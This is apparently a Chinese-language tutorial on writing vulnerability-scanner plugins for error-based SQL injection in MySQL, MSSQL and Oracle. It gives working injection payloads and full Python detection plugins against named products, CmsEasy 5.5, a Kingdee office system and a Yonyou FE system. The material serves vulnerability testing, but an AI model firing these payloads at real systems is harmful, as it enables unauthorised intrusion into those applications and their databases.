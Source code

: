 # 基于报错的 SQL 注入
---

这一类的也叫有回显注入，页面会返回错误信息，或者是把注入语句的结果直接返回在页面中。
 
### MySQL 数据库
	
**方法**：直接在结果中输出一个 md5 值

其 SQL 语句原型类似：

```
select md5(233);
```

#### 实例

[CmsEasy 5.5 UTF-8 20140802/celive/live/header.php SQL注入漏洞](http://wooyun.org/bugs/wooyun-2010-070827):

**请求的目标 URL**：

`http://xxx.com/celive/live/header.php`

**POST 数据内容(Payload)**：

```
xajax=LiveMessage&xajaxargs[0][name]=1',(SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),(select md5(233)))a from information_schema.tables group by a)b),'','','','1','127.0.0.1','2') #
```

**手动验证效果图**：

![图 3-1](/img/3-1.png)

**漏洞验证(伪代码)**：

md5(233) 的值为 e165421110ba03099a1c0393373c5b43

```
if 'e165421110ba03099a1c0393373c5b43' in 返回内容:
        security_hole(target, log=log)
```

**范例插件**：

[CmsEasy 5.5 UTF-8 20140802/celive/live/header.php SQL注入漏洞](http://q.bugscan.net/t/696)

> 感谢插件作者: [残废](http://q.bugscan.net/u/%E6%AE%8B%E5%BA%9F)

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import urllib


def assign(service, arg):
    if service == fingerprint.cmseasy:
        return True, arg


def audit(arg):
    target = arg + '/celive/live/header.php'
    post_data = {
        'xajax': 'LiveMessage',
        'xajaxargs[0][name]': "1',(SELECT 1 FROM (select count(*),concat("
                              "floor(rand(0)*2),(select md5(233)))a from "
                              "information_schema.tables group by a)b),"
                              "'','','','1','127.0.0.1','2') #"
    }
    code, head, body, redirect_url, log = hackhttp.http(
        target, post=urllib.urlencode(post_data))
    if 'e165421110ba03099a1c0393373c5b43' in body:
        security_hole(target, log=log)

if __name__ == '__main__':
    from dummy import *
    audit(assign(fingerprint.cmseasy, 'http://localhost/cmseasy/')[1])
```

### MSSQL 数据库

**方法**：直接在结果中输出一个 md5 值

其 SQL 语句原型类似：

```
select sys.fn_varbintohexstr(hashbytes('MD5','1234'));
```

`hashbytes()`返回 varbinary 类型值

`sys.fn_VarBinToHexStr()` 是把 varbinary 转换成 varchar

**范例插件**：


[金蝶办公系统 get_file.jsp SQL注入漏洞](http://q.bugscan.net/t/3000)

> 感谢插件作者: [Clown](http://q.bugscan.net/u/Clown)

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# author:
# Name:金蝶办公系统 get_file.jsp SQL注入漏洞

import time

def assign(service, arg):
    if service == fingerprint.kingdee:
        return True, arg
        
        
def audit(arg):
    payload = 'Kingdee/disk/get_file.jsp?file_id=11%29%20and%201%3D2%20UNION%20SELECT%201%2C2%2C3%2C4%2C5%2C6%2C7%2Csys.fn_varbintohexstr%28hashbytes%28%27MD5%27%2C%271234%27%29%29%2C9%2C10--'
    code,head, res, redirect_url, log = hackhttp.http(arg + payload)
    if code == 200 and '81dc9bdb52d04dc20036dbd8313ed055' in res:
        security_hole(arg + payload + "  :found sql Injection", log=log)


if __name__ == '__main__':
    from dummy import *
    audit(assign(fingerprint.kingdee,'http://www.example.com/')[1])
```

其中 Payload 是经过 URL 编码后的，解码后的 Payload 为：

```
payload = 'Kingdee/disk/get_file.jsp?file_id=11) and 1=2 UNION SELECT 1,2,3,4,5,6,7,sys.fn_varbintohexstr(hashbytes('MD5','1234')),9,10--'
```

### Oracle 数据库

**方法**：Oracle 中输出 md5 值实现起来较为复杂，可以连续输出几个随机的字符来使判断字符串随机化

SQL 语句：

```
SELECT CHR(97)||CHR(108)||CHR(107)||CHR(100)||CHR(102)||CHR(106)||CHR(103)||CHR(99) FROM foobar
```

其效果相当于：

```
SELECT 'alkdfjgc' FROM foobar
```

这样只用检测 `alkdfjgc` 是否在返回页面中即可。

**注意**:所选字符串应该尽量无规律且要有一定长度，不要选用常见的单词（如 get, test, ceshi）。

#### 范例

[用友FE协作办公系统 feReport/chartList.jsp SQL 注入漏洞](http://www.wooyun.org/bugs/wooyun-2010-0112747)：

原漏洞提及多处 SQL 注入，这里只选择其中 Oracle Union 注入：

Payload 为：

```
feReport/chartList.jsp?delId=1&reportId=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,bvuegrsycgaonod,NULL,NULL,NULL FROM DUAL--
```

将 `bvuegrsycgaonod` 转换后 Payload 为：

```
feReport/chartList.jsp?delId=1&reportId=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CHR(98)||CHR(118)||CHR(117)||CHR(101)||CHR(103)||CHR(114)||CHR(115)||CHR(121)||CHR(99)||CHR(103)||CHR(97)||CHR(111)||CHR(110)||CHR(111)||CHR(100),NULL,NULL,NULL FROM DUAL--
```

**示例插件**：

[用友FE协作办公系统 feReport/chartList.jsp SQL 注入漏洞检测插件](http://q.bugscan.net/t/1427)

> 感谢插件作者: [小光](http://q.bugscan.net/u/%E5%B0%8F%E5%85%89)

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# 用友FE协作办公系统 feReport/chartList.jsp SQL 注入漏洞

import time

def assign(service, arg):
    if service == fingerprint.yongyou_fe:
        return True, arg
        
        
def audit(arg):
    payload = 'feReport/chartList.jsp%3FdelId%3D1%26reportId%3D1%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCHR%2898%29%7C%7CCHR%28118%29%7C%7CCHR%28117%29%7C%7CCHR%28101%29%7C%7CCHR%28103%29%7C%7CCHR%28114%29%7C%7CCHR%28115%29%7C%7CCHR%28121%29%7C%7CCHR%2899%29%7C%7CCHR%28103%29%7C%7CCHR%2897%29%7C%7CCHR%28111%29%7C%7CCHR%28110%29%7C%7CCHR%28111%29%7C%7CCHR%28100%29%2CNULL%2CNULL%2CNULL%20FROM%20DUAL--'
    code,head, res, redirect_url, log = hackhttp.http(arg + payload)
    if code == 200 and 'bvuegrsycgaonod' in res:
        security_hole(arg + payload + " : Found SQL Injection", log=log)


if __name__ == '__main__':
    from dummy import *
    audit(assign(fingerprint.yongyou_fe,'http://www.example.com/')[1])
```